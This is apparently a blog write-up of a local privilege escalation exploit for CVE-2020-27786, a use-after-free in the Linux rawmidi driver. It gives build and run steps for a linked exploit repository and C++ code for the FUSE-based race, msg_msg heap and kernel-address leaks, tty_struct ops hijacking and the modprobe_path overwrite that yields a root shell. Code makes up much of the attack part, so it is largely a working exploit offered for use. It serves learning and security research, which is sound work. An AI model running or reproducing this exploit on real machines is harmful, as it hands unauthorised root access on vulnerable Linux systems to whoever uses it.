




# Overview

I was looking for nday that I can use to learn more about FUSE since userfaultfd technique is dead in lastest kernel :(. My good friend [c0ld21](https://c0ld21.github.io/) was porting [kiks](https://1day.dev/notes/Linux-Kernel-n-day-exploit-development/) PoC of CVE-2020-27786 which is written for 4.9.223 to 5.6.13 and I scheme through the original PoC and thought it was a good candidate to learn more about FUSE. The reason being it triggers UaF via race condition through userfaultfd.

In this blog I will explain how you can use `FUSE` to trigger UaF and use `msg_msg` to leak kernel address and use `tty_struct` to write `modprobe_path` to get LPE.


# Building Exp

Exp will be is [here](https://github.com/elbiazo/CVE-2020-27786)

```sh
git clone https://github.com/elbiazo/CVE-2020-27786.git
cd CVE-2020-27786
cmake -S . -B build -G Ninja
cmake --build build
```

If it doesn't compile you would likely need to install FUSE

```sh
apt-get install fuse
apt-get install libfuse-dev
```
# Building Linux Kernel

You can follow [syzkaller guide](https://github.com/google/syzkaller/blob/master/docs/linux/setup_ubuntu-host_qemu-vm_x86-64-kernel.md). TLDR; Instead of doing `make defconfig`, you can just copy 
`config_5.6.13` from `CVE-2020-27786` repo to `.config` then do `make olddefconfig` and `make -jnproc`

# Running Exp

Update exp.cc code `/home/user/win` to your own path. example: `/home/biazo/win`
```cpp
pwn::modprobe_path::init("/tmp/xx", "/tmp/dummy", "/home/user/win");
pwn::modprobe_path::trigger("/tmp/dummy", "/home/user/win");
```

Copy over `exp`, `kallsyms.txt` and `win` binary to directory you updated above and run it.


# Bug

## Opening the Device

You can open the character driver from path `/dev/snd/midiC0D*`. Any of those should work.

[fops](https://elixir.bootlin.com/linux/v5.15/source/sound/core/rawmidi.c#L1707)

```cpp
static const struct file_operations snd_rawmidi_f_ops =
{
	.owner =	THIS_MODULE,
	.read =		snd_rawmidi_read,
	.write =	snd_rawmidi_write,
	.open =		snd_rawmidi_open,
	.release =	snd_rawmidi_release,
	.llseek =	no_llseek,
	.poll =		snd_rawmidi_poll,
	.unlocked_ioctl =	snd_rawmidi_ioctl,
	.compat_ioctl =	snd_rawmidi_ioctl_compat,
};
```

## SNDRV_RAWMIDI_IOCTL_PARAMS IOCTL

`SNDRV_RAWMIDI_IOCTL_PARAMS` calls [resize_runtime_buffer](https://elixir.bootlin.com/linux/v5.15/source/sound/core/rawmidi.c#L678) that will update the `runtime->buffer` (device struct that holds the buffer) with a new buffer. Then it will free the old one. We also control the size of the new buffer which is great.



## Write Function

Writing to device driver will copy the user data into `runtime->buffer` mentioned from above at function [snd_rawmidi_kernel_write1](https://elixir.bootlin.com/linux/v4.9.223/source/sound/core/rawmidi.c#L1283). it will use `copy_from_user`.



## Write Primitive with UaF (Use After Free)

By default, `runtime->buffer` is allocated with size 4096(PAGE_SIZE). But we can control the size of that using the `SNDRV_RAWMIDI_IOCTL_PARAMS`. 

So if we create a FUSE and try to write to the device, when it hits the `copy_from_user` it will pause it there and wait for user to handle the fault.

While `copy_from_user` is paused, if we call `SNDRV_RAWMIDI_IOCTL_PARAMS`, it will free the current `runtime->buffer` and allocate it with a new memory. However, the `copy_from_user` is still paused and it will continue to copy the user data into the old `runtime->buffer` which is now freed. This will trigger UaF Write.

We now should be able to spray the memory with size of `runtime->buffer` with any of kernel data we want since we also control the size of `runtime-buffer` with IOCTL.


# Exploit

## Setup

### Pinning CPU

First you want to pin the cpu so that main and thread are all in same cpu context. Else, you can't do UaF.


```cpp
    CPU_ZERO(&pwn_cpu);
    CPU_SET(0, &pwn_cpu);
```

and

```cpp
if (sched_setaffinity(0, sizeof(cpu_set_t), &pwn_cpu))
{

    fatal("sched_setaffinity");
}
```

### Create FUSE

You can read more about it in [pawnyable](https://pawnyable.cafe/linux-kernel/LK04/fuse.html) or [LukeGix Blog](https://exploiter.dev/blog/2022/FUSE-exploit.html)on how to create FUSE. Essentially, you want to create handler for `getattr`, `open` and `read`.

#### File Operations for FUSE
```cpp
static struct fuse_operations fops = {
    .getattr = getattr_callback,
    .open = open_callback,
    .read = read_callback,
};
```

#### CVE_2020_27786 Constructor and Destructor

```cpp
class CVE_2020_27786
{
    // crate fuse thread
    pthread_t ftid;

public:
    LinKern kern{};

    CVE_2020_27786()
    {
        pthread_create(&ftid, NULL, fuse_thread, NULL);

        // wait for fuse to be ready
        while (!fuse_ready)
        {
        }
        info("fuse ready");
    }

...

    ~CVE_2020_27786()
    {
        info("cleaning up fuse");
        // exit fuse
        pthread_kill(ftid, SIGINT);
        info("cleaned up fuse");

        // clean up all the sprays
        // or else you will get a kernel panic
        // also you don't wana close it too early so we do it here
        for (auto spray : total_sprays)
        {
            close(spray);
        }
    }
}
```

## Leaking Kernel Address using UaF and msg_msg

Resource for msg_msg technique by [willisroot](https://www.willsroot.io/2021/08/corctf-2021-fire-of-salvation-writeup.html) and [popov](https://a13xp0p0v.github.io/2021/02/09/CVE-2021-26708.html) are good if you don't know this trick already.

Code section for this is in function call `leak_base()` and fuse handler `read_callback()` -> `if (strcmp(path, "/pwn") == 0)`



1. We will create msg_msg with size 0x1010 (PAGE_SIZE + 0x10) so that we can have kmalloc-4096 and kmalloc-32 allocated. We `send_msg(qid, message, size - 0x30, 0);` subtract 0x30 since that is the header size. *It really should be subtracting `0x38`. `0x30`(msg_msg header) - `0x8` (msg_msgseg).
2. Spray kmalloc-32 with [shm_file_data](https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628#shm_file_data) so that we can leak the `init_ipc_ns` address to get kernel base.
3. Use UaF write to overwrite `m_ts` with bigger value so that we can read after our kmalloc-32 pointer.
4. Use `get_msg()` to read multiple shm_file_data's kmalloc-32 pointer after our's from msg_msg.
5. Find `init_ipc_ns` address from shm_file_data pointer so that we can calculate kernel base.


### UaF Write to Change m_ts msg_msg Size
```cpp
msg_header evil;
size = 0x1400;
memset((void *)&evil, 0, sizeof(msg_header));
evil.ll_next = (void *)0x4141414141414141;
evil.ll_next = (void *)0x4242424242424242;
evil.m_type = 1;
evil.m_ts = size;
memset(buffer, 0, sizeof(buffer));
memcpy(buffer, (void *)&evil, 0x20);
// here we override the overlapped msg_msg with our own buffer
memcpy(buf, buffer, 0x20);
return 0x20;
```

### Reading kmalloc-32 pointers to get init_ipc_ns address

Once we overwrite the size, next time we call `get_msg()` (which calls `msgrcv`), we will get more data

```cpp
char recieved[0x2000] = {0};
// max size before we use msg_seg. (if we go over this we will just segfault)
int size = 0x2000;
// we should recv more now
get_msg(qid, recieved, size, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR);

uint64_t init_ipc_ns = 0;
int found_ipc_ns = 0;
// for (int i = 0xff8 / 8; i < (0xff8 / 8) + 0x10; i++)
for (int i = 0xf00 / 8; i < size / 8 && i < 0x1200 / 8; i++)
{
    init_ipc_ns = *(uint64_t *)(recieved + i * 8);
    printf("[%u]: %p\n", i, (void *)init_ipc_ns);

    if ((init_ipc_ns & 0xffff) == (kern.find_sym("./kallsyms.txt", "init_ipc_ns") & 0xffff))
    {
        found_ipc_ns = 1;
        break;
    }
}
```

## Leaking Heap Address

It will be similar to leaking kernel address. Instead of spraying with [shm_file_data](https://ptr-yudai.hatenablog.com/entry/2020/03/16/165628#shm_file_data) we will use msg_msg's msg_seg kmalloc-512 to leak kmalloc-512 pointer. The reason why i choose kmalloc-512 is because it seemed less used then other ones such as kmalloc-4096 or kmalloc-1024.

With this heap leak, we have control over user controlled heap (msg_msg kmalloc-512). We can use this pointer to write data in [msg_msg->data] and point our pc to it if we want.

Code section for this is in function call `leak_kmalloc_4096()` and fuse handler `read_callback()` -> `if (strcmp(path, "/heap") == 0)`



### Creating kmalloc-512 and overriding m_ts msg_msg Size

```cpp
msg_msg_next_heap_groom(0x200, 10, 0);

// allocate over old chunk;
send_msg(qid, message, size - 0x30 - 0x8, 0);
// debug();

msg_header evil;
size = 0x1400;
memset((void *)&evil, 0, sizeof(msg_header));
evil.ll_next = (void *)0x4141414141414141;
evil.ll_next = (void *)0x4242424242424242;
evil.m_type = 1;
evil.m_ts = size;
memset(buffer, 0, sizeof(buffer));
memcpy(buffer, (void *)&evil, 0x20);
// here we override the overlapped msg_msg with our own buffer
memcpy(buf, buffer, 0x20);
return 0x20;
```

### Reading kmalloc-512 pointers to find User Controlled Heap Address

```cpp
char recieved[0x2000] = {0};
// max size before we use msg_seg. (if we go over this we will just segfault)
int size = 0x1400;
// we should recv more now
get_msg(qid, recieved, size, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR);

uint64_t cur_addr = 0;
uint64_t heap_leak = 0;
// for (int i = 0xff8 / 8; i < (0xff8 / 8) + 0x10; i++)
for (int i = 0xf00 / 8; i < size / 8; i++)
{
    cur_addr = *(uint64_t *)(recieved + i * 8);
    printf("[%u] @ %u: %p\n", i, i * 8, (void *)cur_addr);

    // this is m_ts of next msg_msg. we want to get ll_prev
    // typedef struct
    // {
    //     void *ll_next;
    //     void *ll_prev;
    //     long m_type;
    //     size_t m_ts;
    //     void *next;
    //     void *security;
    // } msg_header;
    if (cur_addr == 0x1d0)
    {
        heap_leak = *(uint64_t *)(recieved + (i - 2) * 8);
        break;
    }
}
const uint64_t msg_msg_data_offset = 0xc0; // use to be 0x38 but put it in middle for higher chance
if (heap_leak == 0)
{
    printf("failed to find leak\n");
    result = -1;
    goto cleanup;
}

println("heap leak: {:#X}", heap_leak + msg_msg_data_offset);
kern.syms["heap"] = heap_leak + msg_msg_data_offset;
```


## Overriding modprobe_path

Now we have kernel base address as well as user controlled heap address. We will perform [modprobe_path override](https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/). TLDR; you can overide global varible named [modprobe_path](https://elixir.bootlin.com/linux/v5.15/source/include/linux/kmod.h#L20). modprobe_path by default points to `/sbin/modprobe`. You can check it by doing `cat /proc/sys/kernel/modprobe
`.

This binary gets called when magic header of program doesn't match any known header. So if you can replace modprobe_path string with your own program such as `/tmp/xx`, it will execute that binary as root user. Giving you LPE.

Code section for this is in function call `leak_kmalloc_4096()` and fuse handler `read_callback()` -> `if (strcmp(path, "/heap") == 0)`


### Arbitary Write 32bit via tty_struct

This method is well documented from [pawnyable](https://pawnyable.cafe/linux-kernel/LK01/heap_overflow.html). TLDR; you can use UaF Write again and spray [tty_struct](https://elixir.bootlin.com/linux/v5.15/source/include/linux/tty.h#L148). If you override `ops` with pointer to your own memory (for us, our kmalloc-512), that have array of function pointer, it will call that function. Another cool thing about this trick is that 
you have control over `RCX, RDX, RSI, R08, R12, R14`.

Therefore, if you can find gadget like `mov [rdx], rcx; ret;`, you can use this write to jump to that gadget, and perform arbitary write. 

So for us rdx will be `modprobe_path` address and rcx will be string literal `/tmp/xx`. 
Another gotcha about this technique is that it will write 32 bit at a time so we have to do this technique twice. for `/tmp` and `/xx\0`.


#### [Pawnyable Example](https://pawnyable.cafe/linux-kernel/LK01/heap_overflow.html)

```cpp
ioctl(spray[i], 0xdeadbeef, 0xcafebabe);

```

Results in

```
RCX: 00000000deadbeef
RDX: 00000000cafebabe
RSI: 00000000deadbeef
R08: 00000000cafebabe
R12: 00000000deadbeef
R14: 00000000cafebabe
```

#### Writing to modprobe_path

```cpp
for (int i = 0; i < sizeof(cmd); i += 4)
{
    for (int j = 0; j < MAX_ATTEMPT; j++)
    {
        if (exp.arb_write(mod_path + i, *(unsigned int *)&cmd[i]) == 0)
        {

            std::ifstream fs("/proc/sys/kernel/modprobe", std::ifstream::in);
            std::string path;
            std::getline(fs, path);
            std::string correct_path{cmd + i};
            // only get substring if it is long enough
            if (correct_path.size() >= 4)
            {
                correct_path = correct_path.substr(i, i + 4);
            }

            // check if current_path size is long enough
            std::string current_path = path.substr(i);
            if (current_path.size() >= 4)
            {
                current_path = path.substr(i, i + 4);
            }

            info(format("checking if correct path == current path: {} == {}", correct_path, current_path).c_str());

            if (correct_path == current_path)
            {
                break;
            }
        }
        info(format("Failed to aaw32 at {}. Attempt: {}/{}", i, j + 1, MAX_ATTEMPT).c_str());
    }
}
```

#### kmalloc-512 Heap We control with function pointers for tty_sturct's ops

You can see that we groom the heap to point to our gadget. With previous step (leaking the kmalloc-512 heap) we have pointer to address holding this data.

```cpp
void msg_msg_next_heap_groom(int size, int n, int type)
{
    char buffer[0x2000], recieved[0x2000];
    memset(buffer, 0, sizeof(buffer));
    memset(recieved, 0, sizeof(recieved));

    msg *message = (msg *)buffer;

    message->mtype = type;
    uint64_t *ptr = (uint64_t *)message->mtext;
    uint64_t mov_prdx_rcx_ret = kbase + mov_prdx_rcx_ret_offset; // 0xffffffff81acd98d: mov [rdx], rcx; ret;
    println("[*] mov_prdx_rcx_ret: {:#X}", mov_prdx_rcx_ret);
    for (int i = 0; i < size / 8; ++i)
    {

        ptr[i] = mov_prdx_rcx_ret; // 0xffffffff81ad464d: mov [rdx], rcx; ret;
    }

    int mqids = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
    for (int i = 0; i < n; i++)
    {
        if (msgsnd(mqids, &message, size - 0x30, 0) != 0)
            printf("[*] Error with msgsnd %d in heap_groom\n", mqids);
    }
}
```

#### Override tty_struct's ops with kmalloc-512 heap with function pointers to Our Gadgets

```cpp
if (strcmp(path, "/write") == 0)
{
    puts("[*] fuse write");

    auto s1 = pwn::kmalloc_1024::tty_struct::spray(20);
    sprays.insert(sprays.end(), s1.begin(), s1.end());

    puts("[+] trigger uaf");
    // you have to realloc before fuse
    resize_buffer(mid_fd, 0x350);

    auto s2 = pwn::kmalloc_1024::tty_struct::spray(20);
    sprays.insert(sprays.end(), s2.begin(), s2.end());

    char tmp[0x20];

    memset(tmp, 0, 0x20);

    uint64_t *ptr = (uint64_t *)tmp;

    // it seems that first data to tty_struct is always 0x0000000100005401.
    ptr[0] = 0x0000000100005401;
    ptr[1] = 0x0;

    println("[+] heap_leak: {:#X}", heap_leak);
    if (heap_leak == 0)
        error("heap_leak is 0");

    for (int i = 2; i < 0x20 / 8; i++)
    {
        ptr[i] = heap_leak;
    }

    // debug();

    // here we override the overlapped msg_msg with our own buffer
    memcpy(buf, tmp, 0x20);
    return 0x20;
}
```

## Getting LPE

Now if you do `cat /proc/sys/kernel/modprobe`, you will see that it is `/tmp/xx`.

At this point, now you have arbitary code execution as root. Write some code in any language and place it in `/tmp/xx` and run `dummy` program with bad header.

For us, we will run `win` program from below. It will just give us shell. 

### win.c
```cpp
void pwn::win()
{
    char *argv[] = {(char *)"/bin/sh", NULL};
    char *envp[] = {NULL};
    execve("/bin/sh", argv, envp);
}

#include <kt.h>

int main() {
  pwn::win();
  return 0;
}

```

### Code from exp

```cpp
pwn::modprobe_path::init("/tmp/xx", "/tmp/dummy", "/home/user/win");
pwn::modprobe_path::trigger("/tmp/dummy", "/home/user/win");
```

### Rooting!

It might not work the first time. Also it takes few seconds because FUSE is slowwww.

#### Initial


#### Kernel Base Leak


#### Heap Leak


#### Overriding modprobe_path


#### Running win as root

